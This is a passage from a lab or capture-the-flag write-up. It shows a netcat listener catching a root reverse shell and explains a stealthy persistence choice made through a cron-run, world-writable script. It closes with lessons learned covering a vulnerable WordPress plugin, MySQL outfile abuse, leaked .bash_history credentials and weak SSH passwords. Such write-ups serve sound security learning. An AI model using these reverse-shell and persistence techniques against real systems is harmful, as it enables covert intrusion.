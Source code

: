 ```bash
kali@kali:~$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.114] 33080
/bin/sh: 0: can not access tty; job control turned off
# whoami
root
```

Note: I had numerous options in how I would use the write rights on the `.sh` file being executed every 5 minutes. For example, I could've added a new user to the admin group, or to the `sudoers` list. This time I chose for a more stealthy approach however - this way I would only have full access the second a listener is started on my Kali machine. Ideally, this is harder to detect keeping my access to the machine for a longer period of time.

## Lessons learned

There was a lot going on this target's machine, so there were probably more attack vectors than the ones I had used. Regardless, my initial access to the target's machine relied on a vulnerable Wordpress plug-in, advanced-video-embed-embed-videos-or-playlists. This (version of the) plug-in should not be used. In fact, Wordpress websites in general are very plug-in and theme dependent, so it's good practice to keep all of these up-to-date and safe as often as possible.

After that, the shell I created for myself (and the access to remote commands) relied on the fact that my MySQL user had access to `outfile`. This could've been prevented by disabling access to `outfile`.

To elevate my privileges to root level, I relied on the credentials I found in a `.bash_history` file. This could've been prevented by 1) editing the configuration so that `.bash_history` doesn't actually store any command history, 2) not typing plaintext passwords in your commands (and not using commands that require this) and/or 3) deleting your existing `.bash_history` contents. All three of these are especially true for users with `sudo` rights, as was the case here.

The second approach used the ease with which SSH usernames could be enumerated via SMB and the fact that one of these users used a password identical to their username. SSH usernames should, ideally, be kept more hidden but they should definitely never use a password identical to their username.

The way I elevated my limited access to full access after that, was based on a frequently running cron executing a world writable file as root. This could've been prevented by changing the write rights on the `.sh` file.
